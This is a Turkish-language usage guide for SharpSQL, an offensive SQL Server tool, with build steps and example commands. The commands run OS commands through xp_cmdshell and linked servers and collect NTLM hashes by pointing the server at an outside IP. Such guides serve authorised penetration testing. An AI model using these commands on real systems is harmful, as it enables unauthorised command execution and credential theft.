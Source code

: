 # SharpSQL Kullanım Rehberi

## SharpSQL Nedir?

**SharpSQL**, PowerUpSQL aracının C# ile geliştirilmiş basit bir sürümüdür. SQL Server ortamlarını keşfetmek, yönetmek ve potansiyel güvenlik açıklarını test etmek için kullanılır. Aracın sunduğu işlevler, SQL sunucularını analiz etmeyi ve yetki yükseltme saldırılarını gerçekleştirmeyi kolaylaştırır.

> **Önemli Not:** SharpSQL yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Özellikler

1. **SQL Sunucu Keşfi:**
   - Domain içindeki SQL sunucularını tespit eder.
2. **SQL Yönetimi:**
   - SQL kullanıcılarını, gruplarını ve izinlerini analiz eder.
3. **Yetki Yükseltme:**
   - Komut yürütme ve impersonation yöntemleriyle yetki yükseltme saldırılarını gerçekleştirir.

---

## İndirme ve Çalıştırma

SharpSQL aracı GitHub üzerinden sağlanabilir:

- [SharpSQL GitHub Sayfası](https://github.com/mlcsec/SharpSQL)

### Çalıştırma Adımları

1. **Araç Dosyasını İndirin:**
   ```bash
   git clone https://github.com/mlcsec/SharpSQL.git
   ```

2. **Derleme:**
   - Visual Studio kullanarak projeyi açın ve derleyin.
   - Derleme sonucunda `SharpSQL.exe` dosyasını elde edeceksiniz.

3. **Çalıştırma:**
   ```bash
   SharpSQL.exe [Metot] [Parametreler]
   ```

---

## Kullanım Parametreleri

### Genel Kullanım
```bash
SharpSQL.exe [Metot] [Parametreler]
```

### Desteklenen Metotlar
- **Get-SQLInstanceDomain:** Domain içindeki SQL sunucularını keşfeder.
- **Get-Databases:** Mevcut veritabanlarını listeler.
- **Get-Sysadmins:** SQL sunucusundaki sysadmin kullanıcılarını listeler.
- **Invoke-OSCmd:** `xp_cmdshell` kullanarak komut çalıştırır.
- **Get-Hash:** NTLM hash değerlerini toplar.

### Ortak Parametreler
- **-Instance:** Hedef SQL sunucusunun adı veya IP adresi.
- **-Command:** Çalıştırılacak komut (varsayılan: `whoami`).
- **-Query:** Çalıştırılacak SQL sorgusu.
- **-User:** Kullanıcı adı.
- **-db:** Bağlanılacak veritabanı (varsayılan: `master`).

---

## Örnek Kullanım Senaryoları

### SQL Sunucularını Keşfetme
```bash
SharpSQL.exe Get-SQLInstanceDomain
```

### Kullanıcı İzinlerini Görüntüleme
```bash
SharpSQL.exe Get-UserPrivs -Instance sql.server
```

### `xp_cmdshell` ile Komut Çalıştırma
```bash
SharpSQL.exe Invoke-OSCmd -Instance sql.server -Command "whoami"
```

### NTLM Hash Toplama
```bash
SharpSQL.exe Get-Hash -Instance sql.server -ip 10.10.10.10
```

### Linked Server Üzerinden Komut Çalıştırma
```bash
SharpSQL.exe Invoke-LinkedOSCmd -Instance sql.server -LinkedInstance linked.sql.server -Command "dir C:\\users\\"
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** SharpSQL yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç üretim ortamında kullanılmadan önce test ortamında değerlendirilmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
